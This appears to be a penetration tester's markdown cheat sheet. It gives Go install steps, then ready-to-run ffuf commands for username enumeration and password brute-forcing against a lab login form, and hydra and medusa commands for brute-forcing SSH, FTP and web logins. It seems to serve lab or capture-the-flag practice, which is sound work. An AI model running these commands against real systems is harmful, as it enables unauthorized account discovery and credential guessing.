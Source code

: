 # `ffuf`

- https://github.com/ffuf/ffuf

## Go update

```bash
# Remove the golang-go package
sudo apt-get remove golang-go

# Remove the golang-go dependencies
sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package
sudo rm -rvf /usr/local/go

# Install the new Go version
wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file
sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables
source ~/.profile

# Verify Go version
go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Brute force Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

# `hydra`

## Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

## Args

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

## Usage

### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

# `medusa`

## Brute force SSH

```bash
medusa -h IP -U users.txt -P passwords.txt -M ssh IP
```

